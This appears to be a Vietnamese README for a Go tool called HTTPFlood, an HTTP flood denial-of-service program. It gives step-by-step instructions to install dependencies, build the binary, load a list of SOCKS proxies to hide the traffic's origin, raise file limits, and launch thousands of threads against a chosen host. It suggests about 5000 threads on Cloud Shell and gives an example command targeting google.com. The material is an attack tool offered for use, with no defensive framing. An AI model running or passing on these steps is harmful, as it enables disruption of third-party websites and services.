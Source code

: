 # Cách dùng

Tải và cài đặt Golang, sau đó cài thư viện github.com/gamexg/proxyclient

go get "github.com/gamexg/proxyclient"

go mod init HTTPFlood

go mod tidy

Sau đó build file bằng cách chạy go build HTTPFlood.go và chuẩn bị một list SOCKS5 bỏ vào 1 file tên là socks5.txt

Sau đó chạy ulimit -n 999999

Và cuối cùng là ./HTTPFlood HOST PORT THREAD (Nếu trên Cloud Shell thì tầm 5000 là ok) PATH SOCKS_VERSION (socks4/socks5)

VD: ./HTTPFlood google.com 443 5000 / socks4

